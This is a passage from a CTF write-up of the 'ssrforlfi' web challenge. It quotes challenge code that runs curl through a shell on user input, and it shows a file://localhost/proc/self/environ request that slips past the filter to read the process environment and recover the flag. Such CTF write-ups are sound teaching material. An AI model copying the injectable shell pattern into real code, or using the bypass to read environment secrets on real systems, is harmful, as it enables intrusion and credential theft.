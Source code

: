 ```py
    
    print("Password:", password)
    if not has_more:
        break
```

## [web, easy] ssrforlfi (03:08, 113 pt, 76 teams solved)

```py
# SSRF & LFI protection
if url.startswith("http://") or url.startswith("https://"):
    if "localhost" in url:
        return "Detected SSRF ;("
elif url.startswith("file://"):
    path = url[7:]
    if os.path.exists(path) or ".." in path:
        return "Detected LFI ;("
else:
    # Block other schemes
    return "Invalid Scheme ;("

try:
    # RCE ?
    proc = subprocess.run(
        f"curl '{url}'",
        capture_output=True,
        shell=True,
        text=True,
        timeout=1,
    )
```

There is not much we can do even with `http://localhost`, even though we can use some kind of external DNS to point to `127.0.0.1`.

So we try the LFI path. Searching `curl file url handling` on Google we find the [URL syntax](https://curl.se/docs/url-syntax.html) page. We see the section

> **FILE**
> When a FILE:// URL is accessed on Windows systems, it can be crafted in a way so that Windows attempts to connect to a (remote) machine when curl wants to read or write such a path.
> 
> curl only allows the hostname part of a FILE URL to be one out of these three alternatives: localhost, 127.0.0.1 or blank ("", zero characters). Anything else makes curl fail to parse the URL.

So `file://localhost/<absolute path>` works.

```sh
$ curl 'https://ssrforlfi.beginners.seccon.games/?url=file://localhost/proc/self/environ' --output -
```

And so we have the flag `ctf4b{1_7h1nk_bl0ck3d_b07h_55rf_4nd_lf1}`.
